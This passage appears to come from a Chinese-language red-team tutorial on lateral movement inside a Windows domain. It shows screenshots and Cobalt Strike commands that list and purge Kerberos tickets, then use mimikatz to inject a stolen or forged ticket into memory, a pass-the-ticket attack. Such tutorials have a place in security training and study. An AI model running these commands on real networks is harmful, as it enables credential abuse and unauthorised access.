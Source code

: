 [![](assets/1702372940-b7add2ce63bb2fc30d2dcc8ff485b595.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/25.png)

4.  生成凭证

[![](assets/1702372940-72833a1dfcff640e8d773b92aea801ba.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/26.png)

```bash
# 获取当前主机票证
shell klist

# 然后清除票证
shell klist purge

# 使用mimikatz将生成的票证导入到内存中
mimikatz kerberos::ptc TGT_test1@test.com.ccache
```
